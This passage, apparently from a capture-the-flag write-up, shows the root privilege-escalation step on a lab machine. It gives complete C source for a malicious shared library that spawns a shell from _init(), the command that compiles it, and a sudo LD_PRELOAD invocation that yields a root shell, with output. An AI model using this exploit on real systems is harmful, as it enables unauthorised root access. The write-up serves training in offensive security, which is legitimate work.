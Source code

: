 First crafting a malicious shared library that will spawn a shell for us.

We place our code inside the `_init()` function, so it gets run when the library is loaded.

Also, unsetting the `LD_PRELOAD` variable after the library is loaded to stop other processes we run from loading the library again and spawning another shell.

```c
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	system("/bin/sh");
}
```
{: file="/tmp/shell.c" }

Compiling it into a shared library.

```console
saad@m4lware:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now running the `ping` command as root using `sudo` with the `LD_PRELOAD` environment variable pointing to our malicious shared library, we get a shell as root and can read the root flag.

```console
saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```


<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>